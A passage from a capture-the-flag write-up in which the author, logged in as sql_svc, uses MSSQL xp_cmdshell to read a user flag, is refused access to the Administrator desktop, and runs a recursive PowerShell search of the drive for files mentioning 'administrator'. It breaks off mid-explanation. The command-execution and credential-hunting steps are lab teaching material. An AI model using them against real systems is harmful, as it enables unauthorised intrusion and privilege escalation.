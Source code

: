 Looks like the user we’re currently logged in with `sql_svc` who can run remote commands on the system. So now all that is left is to read the contents of the user flag in the desktop:

```bash
SQL> xp_cmdshell "type c:\Users\sql_svc\Desktop\user.txt"
output                                                                             
 
--------------------------------------------------------------------------------   
 
3e7b102e78218e935bf3f4951fec21a3
```

I was delighted at this point. But still had my eyes to the second and more challenging part: retrieve the administrator’s flag.
I attempted to access the path where the flag is located but unfortunately I could not access it:

```bash
SQL> xp_cmdshell "cd c:\Users\Administrator\Desktop"
output                                                                             
 
--------------------------------------------------------------------------------   
Access is denied.
```

I decided, since I had access to the C: drive, it was worth to do a recursive search in the drive to see if we can find the word “administrator” in some file (since we know that only the administrator account can access the flag on its desktop):
I spawned a new PowerShell process and ran the following command only to be stopped because of denial to search in a particular path (The Event Viewer logs):

```powershell
SQL>xp_cmdshell "powershell "Get-ChildItem -Recurse | Select-String administrator -List | Select Path""
 
Select-String : The file C:\Windows\system32\winevt\Logs\Windows PowerShell.evtx cannot be read: Access to the path    
 
'C:\Windows\system32\winevt\Logs\Windows PowerShell.evtx' is denied.               
 
At line:1 char:26                                                                  
 
+ Get-ChildItem -Recurse | Select-String administrator -List | Select P ...        
 
+                          ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                       
 
    + CategoryInfo          : InvalidArgument: (:) [Select-String], ArgumentException   
 
    + FullyQualifiedErrorId : ProcessingFile,Microsoft.PowerShell.Commands.SelectStringCommand   
```

I altered the command a bit and added the flag `-ErrorAction SilentlyContinue` to prevent the script from from stopping. Let me break down each part to explain what it’s intended to do.
The first part retrieves all files and directories from the `sql_svc` home folder recursively. [The `-File` flag ensures the cmdlet only returns files. The `-Force` flag is important here because it searches for all files (even hidden ones)](https://superuser.com/questions/150748/have-powershell-get-childitem-return-files-only):
